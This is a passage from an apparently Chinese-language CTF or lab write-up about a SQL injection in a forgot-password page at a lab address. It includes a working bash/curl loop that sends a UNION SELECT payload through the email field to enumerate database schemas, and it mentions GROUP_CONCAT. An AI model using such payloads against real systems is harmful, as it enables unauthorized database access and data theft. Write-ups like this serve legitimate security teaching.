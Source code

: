 发现到了第四列的时候，出现了有关邮箱的格式。

[![](assets/1703640271-a736cda43e099907fa89246ef0b48fea.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155542-2ad0ddec-a3c4-1.png)

使用脚本枚举数据库。

```plain
for i in {0..100}; do curl -s http://10.10.10.31/cmsdata/forgot.php --data-urlencode "email=a@b.c' UNiON SELECT 1,schema_name,3,'a@b.c' from information_schema.schemata limit ${i},1;-- -" | grep '<h2>' | awk '{print $5}' | grep -v "^with$" || break; done | cut -d'>' -f2
```

[![](assets/1703640271-e0d2287d387d4c71726c8bc2d2e5e12f.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155602-36e4a3a2-a3c4-1.png)  
使用GROUP\_CONCATSQL 函数，它将一整列合并为一个结果。

[![](assets/1703640271-e4903c63bdcb4ec06afa3ecb8c57924c.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231226155552-30be3934-a3c4-1.png)
